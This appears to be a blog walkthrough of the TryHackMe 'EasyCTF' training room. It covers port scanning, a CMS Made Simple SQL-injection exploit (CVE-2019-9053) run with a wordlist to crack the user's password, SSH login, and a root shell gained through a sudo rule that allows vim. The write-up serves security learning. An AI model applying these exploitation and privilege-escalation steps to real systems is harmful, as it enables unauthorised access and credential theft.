 ```yaml
---
title: Write-up — EasyCTF
date: 2024-06-29 10:00:00 AM
categories: [Write-up, Try Hack Me]
tags: [Try Hack Me, Write-up, ctf, Easy]
image: 'assets/img/articles/EasyCTF.png'
description: The "EasyCTF" room on TryHackMe is designed as a beginner-friendly Capture The Flag (CTF) challenge. It is an excellent starting point for individuals who are new to CTFs and penetration testing.
---
```


> Walkthrough of room EasyCTF from TryHackMe :
> [https://tryhackme.com/room/easyctf](https://tryhackme.com/room/easyctf)

The room covers fundamental skills necessary for CTFs, including **scanning** and **enumeration**, research, **exploitation**, and **privilege escalation**. This makes it a great introduction to the basics of cybersecurity and ethical hacking.

---

### How many services are running under port 1000?

2 services running, **ftp** and **http**.

### What is running on the higher port?

SSH on port 2222.

### What's the CVE you're using against the application?

CMS Made simple version 2.2.8 -> **CVE-2019-9053**

### To what kind of vulnerability is the application vulnerable?

SQLi (https://www.exploit-db.com/exploits/46635)

### What's the password?

```bash
./exploit.py -u http://$TARGET/simple/ -c -w /usr/share/wordlists/rockyou.txt

[+] Salt found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password hash found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

`-c` for enabling cracking.

### Where can you login with the details obtained?

Through `ssh` on port 2222.

### What's the user flag?

The user flag can be retrieve by doing:

```bash
cat user.txt
```

### Is there any other user in the home directory? What's its name?

```bash
ls ..
mitch  sunbath
```

The other user is **`sunbath`**.

### What can you leverage to spawn a privileged shell?

```bash
sudo -l

User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

By abusing **vim** privilege misconfiguration.

### What's the root flag?

```bash
sudo vim -c ':!/bin/zsh'

# Hit Enter

:r!cat /root/root.txt
```


All flags down, mission passed.

![](https://media1.tenor.com/m/lQBJJmatxPYAAAAd/mission-accomplished-penguins.gif)

Be proud of what you’ve accomplished.

See you soon!

> “You can’t have privacy without good security. Anyone saying otherwise is delusional.”

> ― Dr. Larry Ponemon, Founder, Ponemon Institute

## Comments
<script src="https://giscus.app/client.js"
        data-repo="Deomorphisme/Deomorphisme.github.io"
        data-repo-id="R_kgDONEIr-Q"
        data-category="General"
        data-category-id="DIC_kwDONEIr-c4CjomU"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="top"
        data-theme="preferred_color_scheme"
        data-lang="en"
        data-loading="lazy"
        crossorigin="anonymous"
        async>
</script>